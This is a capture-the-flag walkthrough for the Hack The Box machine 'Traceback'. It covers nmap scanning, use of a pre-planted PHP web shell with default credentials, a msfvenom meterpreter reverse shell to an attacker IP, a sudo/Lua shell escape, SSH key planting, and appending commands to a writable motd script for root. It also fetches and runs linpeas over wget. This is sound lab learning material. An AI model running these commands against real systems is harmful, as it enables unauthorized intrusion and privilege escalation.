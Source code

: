 # Traceback

Machine IP:  10.10.10.181 

# Enumeration

```s
nmap -sV -sC 10.10.10.181
```

Service detection: `-sV`

Output:

```s
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`http-title` is interesting.

```s
nmap -sC -sV -A -v -p- -oA full_scan 10.10.10.181 -T4
```

No further interesting things.

# Port 80

Apache httpd 2.4.29 ((Ubuntu)) server on port 80. Have a visit: `http://10.10.10.181:80`.

Enumerating it further. Found the following stuff:

```s
http://10.10.10.181:80/icons/           403 (Forbidden)
http://10.10.10.181:80/icons/small/     403 (Forbidden)
http://10.10.10.181:80/index.html       200 (OK)
http://10.10.10.181:80/server-status    403 (Forbidden)
```

# Source-code (Foothold)

Sourcecode of the page says `<!--Some of the best web shells that you might need ;)-->`. On searching this along with `Xh4H`, we reach this [tweet](https://twitter.com/riftwhitehat/status/1237311680276647936?lang=en) by the same person pointing to a repo of some web shells. Searching these on the actual server, one hit is found.

```
http://10.10.10.181/smevk.php
```

Opening this file `smevk.php`, the username and password are `admin` and `admin`.

This is a pretty useless shell, except it has write access. So cool. Let us create a custom payload and send it there.

1. `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.45 LPORT=1234 -f raw -o shell.php`

2. Set up a listener

```
use exploit/multi/handler 
set LHOST 10.10.14.45
set LPORT 1234
set PAYLOAD php/meterpreter/reverse_tcp 
exploit
```

3. Load `http://10.10.10.181/shell.php` in the browser.

4. Type `shell` to get a shell.

5. Upgrade the shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`


# Enumeration inside the system

Inside the home directory, there is this `webadmin` which has a `note.txt` which says:

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Running `sudo -l` gives the following:

`(sysadmin) NOPASSWD: /home/sysadmin/luvit`

Running `sudo -u sysadmin /home/sysadmin/luvit` runs a lua file.

# Privelege escalation to user sysadmin

Spawn a shell:

```
sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
```

Upgrade the shell using `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Go to the `user.txt` in `home` to get the user flag.

# Privilege escalation to root

Further searching reveals `OpenSSH RSA public key` file in `.ssh` directory within `sysadmin` in `home`. Then tried to add a known host to those files for a passwordless login:


1. `ssh-keygen` on local system: generates private and public keys

2. Copy entire public key to the `sysadmin` `authorized_keys` on the remote end. `echo ... > authorized_keys`

3. Attempt login `ssh sysadmin@10.10.10.181` from your end. You will see `Welcome to Xh4H land`.

On further searching, found that these are located in `/etc/update-motd.d` as `00-header` which is writable by the group `sysadmin` and created by `root`. 

1. Add `echo "cat root/root.txt" >> 00-header` (I guess this >> is there instead of > because we need to append not overwrite).

2. Re-attempt ssh login from the device. The hash gets printed.


And how exactly I searched? `linpeas` from [this link](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
) gave output that involved:

```
/bin/sh -c sleep 30 ; /bin/cp /var/backup/.update-motd.d/* /etc/update-motd.d/
```

Implies a shell script that after every 30 seconds copies the contents of backup motd to the main motd. 

Sending `linpeas` over `nc` was not sufficient. Needed to:

1. `python -m SimpleHTTPServer 80` on the attacker machine.

2. `wget http://IP:80/linpeas.sh` and `sh linpeas.sh`